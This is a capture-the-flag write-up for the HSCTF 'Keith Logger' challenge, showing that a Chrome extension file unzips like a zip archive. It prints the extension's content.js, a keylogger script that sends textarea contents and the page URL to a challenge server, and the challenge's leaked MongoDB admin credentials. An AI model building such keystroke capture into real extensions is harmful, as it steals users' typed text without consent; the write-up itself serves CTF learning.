


## Keith Logger
### Category : Misc

---
We are given a chrome extension. It was a fairly easy challenge, the reason why I am writing this Write-Up is to tell, that chrome extension (.crx) files are nothing more than zip files. 

On unzipping the extension, we get three files

```
      content.js                extension.crx 
      jquery-3.3.1.min.js       manifest.json 
```

`content.js`
```
var timeout_textarea;
var xhr_textarea;

$("textarea").on("keyup", function() {
  if (timeout_textarea) {
    clearTimeout(timeout_textarea);
  }

  if (xhr_textarea) {
    xhr_textarea.abort();
  }

  timeout_textarea = setTimeout(function() {
    var xhr = new XMLHttpRequest();
    /*
    xhr.open(
      "GET",
      "https://keith-logger.web.chal.hsctf.com/api/record?text=" +
        encodeURIComponent($("textarea").val()) +
        "&url=" + encodeURIComponent(window.location.href),
      true
    );*/


    // send a request to admin whenever something is logged, not needed anymore after testing
    /*
    xhr.open(
      "GET",
      "https://keith-logger.web.chal.hsctf.com/api/admin",
      true
    );*/

    xhr.send();
  }, 2000);
});
```

On visiting `https://keith-logger.web.chal.hsctf.com/api/admin` we get, 
```
didn't have time to implement this page yet. use admin:keithkeithkeith@keith-logger-mongodb.web.chal.hsctf.com:27017 for now
```

We get a new link, an access to mongodb.

Using robo3t to connect to robomongo




```
FLAG : hsctf{watch_out_for_keyloggers}
```